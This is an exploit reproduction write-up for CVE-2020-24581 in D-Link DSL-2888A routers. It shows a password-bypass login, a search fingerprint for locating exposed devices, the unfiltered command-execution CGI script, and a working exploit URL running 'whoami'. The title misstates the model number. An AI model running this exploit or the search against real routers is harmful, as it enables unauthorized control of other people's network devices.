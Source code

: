 # D-Link DSL-28881A Remote command execution CVE-2020-24581

## Vulnerability Description

D-Link DSL-2888A AU_2.31_V1.1.47ae55 versions have a security vulnerability, which originated from the inclusion of an execute cmd.cgi feature (not accessible through the web user interface), which allows authenticated users to execute operating system commands.
There is also an unsafe authentication vulnerability in this version of firmware (CVE-2020-24580). You can successfully access the router interface by entering any password in the login interface.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">D-Link DSL-2888A</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="DSL-2888A"</span>

## Vulnerability reappears

Enter any password to establish a connection on the login page



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/link-1.png)



Jump to https://xxx.xxx.xxx.xxx/page/login/login.html?error=fail Display password error

The vulnerability appears in the `execute_cmd.cgi` file

```bash
#!/bin/sh
. /usr/syscfg/api_log.sh

cmd=`echo ${QUERY_STRING} | cut -d = -f 3`
cmd=`echo ${cmd} | tr "%20" " "`

result=`${cmd}`
TGP_Log ${TGP_LOG_WARNING} "cmd=${cmd}, result=${result}"

echo "Content-type: text/html"
echo ""
echo -n ${result}
```



Here, take out the second parameter value in `${QUERY_STRING}`, and then remove the space command to execute

There is no filtering during this process, let's see where the parameters come from

File `/www/js/ajax.js`

```javascript
get : function(_dataType)
	{
		var _url = this.url;
		if(_url.indexOf('?') == -1)
			_url += '?timestamp=' + new Date().getTime();
		else
			_url += "&timestamp=" + new Date().getTime();
		if(this.queryString.length > 0)
			_url += "&" + this.queryString;

		this.xmlHttp.open("GET", _url, true);
		/* will make IE11 fail.
		if(!document.all){
			if(_dataType == "xml")
				this.xmlHttp.overrideMimeType("text/xml;charset=utf8");
			else
				this.xmlHttp.overrideMimeType("text/html;charset=gb2312");//设定以gb2312编码识别数据  
		}
		*/
		this.xmlHttp.send(null);
	},
```



Take a look at the process



```shell
┌──(root)-[/tmp]
└─# echo "timestamp=1589333279490&cmd=whoami" |  cut -d = -f 3
whoami
```



Take the second parameter `whoami` and then execute without filtering



So the EXP is:



```plain
https://xxx.xxx.xxx.xxx/cgi-bin/execute_cmd.cgi?timestamp=test&cmd=whoami
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/link-4.png)
